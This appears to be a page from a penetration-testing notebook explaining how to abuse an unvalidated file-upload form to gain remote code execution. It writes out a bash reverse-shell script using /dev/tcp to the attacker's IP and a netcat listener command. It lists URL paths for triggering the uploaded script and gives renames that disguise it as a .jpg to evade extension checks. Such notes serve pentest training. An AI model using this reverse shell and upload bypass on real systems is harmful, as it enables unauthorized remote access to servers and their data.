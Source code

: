 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Abuse File Upload

File upload functionality is a common feature in web applications, allowing users to submit images, documents, or other files. However, improper handling of file uploads can lead to severe security risks, including remote code execution (RCE), privilege escalation, and data exfiltration.

Here we find an example scenario where this can be exploited:

* Imagine we find an application that allows users to upload files of a type but it does not validate the file type, for example, a field for submitting an image

```bash
http://$url/submit #xample route of the page with the submit option
```

***

* We should submit a file for an image extension such as _jpg_, or _png_, among others. But as is not validating input we could try to submit an arbitrary file with a script for a Reverse Shell

<pre class="language-sh" data-title="RevShell.sh" data-overflow="wrap" data-line-numbers><code class="lang-sh">#!/bin/bash
<strong>bash -i >&#x26; /dev/tcp/$MyIP/$port 0>&#x26;1
</strong></code></pre>

***

* Then we set up a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener to catch the connection

{% code overflow="wrap" lineNumbers="true" %}
```bash
 nc -nvlp $port #Same port that is in the script
```
{% endcode %}

***

* Then we hit the web calling the file, and with this, we should catch the shell in our listener

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/RevShell.sh #Invoke the file
http://$url/uploads/RevShell.sh   #Common route for uploaded files
http://$url/_uploaded/RevShell.sh #Another common route for uploaded files
```
{% endcode %}

{% hint style="info" %}
If we don't know where the files are being saved on the web, we could fuzz the URL to find possible directions where they could be
{% endhint %}

***

* In case it's filtering the uploaded files by a string comparison of the extension or name, we could try to change them arbitrarily to match the requested

{% code overflow="wrap" lineNumbers="true" %}
```bash
mv RevShell.sh RevShell.jpg #Change extension if needed to match 
mv RevShell.sh image.jpg    #Change complete name if needed to match
```
{% endcode %}

{% hint style="info" %}
Then we can continue with the process to call the file and gain the remote connection
{% endhint %}
